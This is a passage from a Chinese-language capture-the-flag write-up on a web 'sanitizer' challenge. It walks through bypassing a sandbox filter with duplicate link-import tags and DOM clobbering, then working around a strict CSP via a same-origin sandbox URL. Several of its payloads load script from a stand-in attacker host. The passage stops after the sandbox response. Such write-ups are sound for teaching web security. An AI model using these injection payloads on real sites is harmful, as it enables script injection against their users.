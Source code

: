 可以看到整个过程中所有的请求都是由Service worker响应的，所以想引入外部的恶意脚本几乎是不可能的。搞清楚代码的逻辑之后，我们可以着手构造payload了，其实核心问题就两个

1. 绕过沙盒中的过滤
2. 搞定CSP

## 0x02绕过沙盒

前面说到，在沙盒中也有一个CSP策略，而这个策略对脚本的域是没有做限制的，因此我们可以使用`<script>`或`<link rel="import">`两种方式引入我们控制的脚本。但是使用script的话就会将自己移除，这样是行不通的。但是使用`<link rel="import" href="http://heihei.com">`也是存在问题的，注意看第38行代码

```js
with(document) remove(document === currentScript.ownerDocument ? currentScript : querySelector('link[rel="import"]'));
```

这行代码会将我们的link标签移除掉，看似走进了一条死路，但是仔细观察可以发现`querySelector('link[rel="import"]')`仅会匹配第一个符合条件的link标签，也就是说如果我们插入多个link标签只有第一个标签会被移除。

```js
<link rel="import"><link rel="import" href="https://heihei.com">
```

这样第二个link标签即可保留下来

这里还有另外一种解决方案，利用`DOM Clobbering`方式，构造这样一个payload

```html
<img name=remove><link rel=import href='https://heihei.com'>
```

这样脚本中重复定义了`remove`，执行时会报错`remove`不是一个函数，最后并没有执行，从而保留住了link标签

![dom_clobbering.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/289ea9f52dbafecf6aae.png)

这样第一个问题解决了，我们将该payload输入到文本框，点击按钮，这时注意看console中的错误信息，由于违反了主页中的CSP策略，我们的脚本是无法加载的。

![csp.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/9ae8ec7eee050083923c.png)

## 0x03 搞定CSP

如何解决这第二个问题呢？既然主页的CSP策略非常严格，我们只能从其同源的页面入手，而同源的页面且受我们控制的只有下面这个请求了：

![sandbox_request.png](http://lc-cf2bfs1v.cn-n1.lcfile.com/0bad02f853411f08b64a.png)

```js
https://sanitizer.web.ctfcompetition.com/sandbox?html=%3Clink%20rel%3D%22import%22%3E%3Clink%20rel%3D%22import%22%20href%3D%22https%3A%2F%2Fheiheihei.com%2Fpwn.html%22%3E
```

其响应为

```html
<!doctype HTML>
<script src=sanitize>
</script>
<body><link rel="import"><link rel="import" href="https://heiheihei.com/pwn.html">
```
